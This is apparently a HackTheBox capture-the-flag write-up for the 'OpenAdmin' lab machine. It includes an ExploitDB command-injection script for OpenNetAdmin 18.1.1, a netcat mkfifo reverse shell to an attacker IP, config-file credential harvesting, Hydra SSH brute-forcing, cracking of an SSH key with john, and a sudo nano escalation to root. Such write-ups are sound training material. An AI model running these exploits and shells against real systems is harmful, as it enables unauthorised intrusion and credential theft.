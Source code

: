 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png
coverY: 0
---
```


# 🕵️ HTB: OpenAdmin – RCE, Privilege Escalation, and the Art of Improvisation

<figure><img src="../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png" alt=""><figcaption></figcaption></figure>

### 🔍 Enumeration Phase

We begin the usual way—**recon** with `nmap`.

**Open ports**:

* 22 (SSH)
* 80 (HTTP)

Port 80 means web enumeration. Time to let **ffuf** loose:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401 -o results.txt
```

**Interesting hits**:

* `/music/`
* `/sierra/`
* `/artwork/`

Crawling with **hakrawler** through Burp gave a promising path:

```bash
cat urls.txt | hakrawler -proxy http://localhost:8080
```

Bingo. This is **OpenNetAdmin**, and version **18.1.1** specifically.

### 💥 Initial Foothold: RCE via OpenNetAdmin

Quick search on [ExploitDB](https://www.exploit-db.com/exploits/47691) brings up an RCE:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x http://localhost:8080 --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

With a little Burp Proxy magic, we got a working shell. Though unstable, it did the job.

### 🧠 Privilege Escalation Begins

Time for lateral movement. Classic reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f

```

```bash
nv -lvnp 1234
```

```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 📦 Credential Harvesting

A quick loot run on config files reveals gold:

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
```

```bash
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
```

### 🔐 SSH Brute-force and User Access

Grabbed usernames from `/etc/passwd`:

```
jimmy  
joanna  
root  
```

Brute-forced via Hydra:

```bash
hydra -L user.txt -P password.txt ssh://10.10.10.171

```

🎯 Hit confirmed: jimmy : n1nj4W4rri0R!



```bash
ssh jimmy@10.10.10.171
```

### 🕵️ Discovery and Key Recovery

Exploring `/var/www/internal` (finally accessible as jimmy), we find something new. The page isn’t accessible over HTTP, but we can curl it locally:

```bash
curl localhost:52846/main.php
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And boom—we find an SSH private key.

But it's encrypted. Time for `john` magic:

```bash
ssh2john key > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### ⚡ Privilege Escalation to Root

We check what joanna can run:

```
sudo -l
```

Allowed to run:

```
/bin/nano /opt/priv
```

We abuse it using a classic `nano` GTFOBins technique:

Inside nano:

```
^R^X
cat /root/root.txt
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

for a shell

```
^R^X
reset; sh 1>&0 2>&0

```

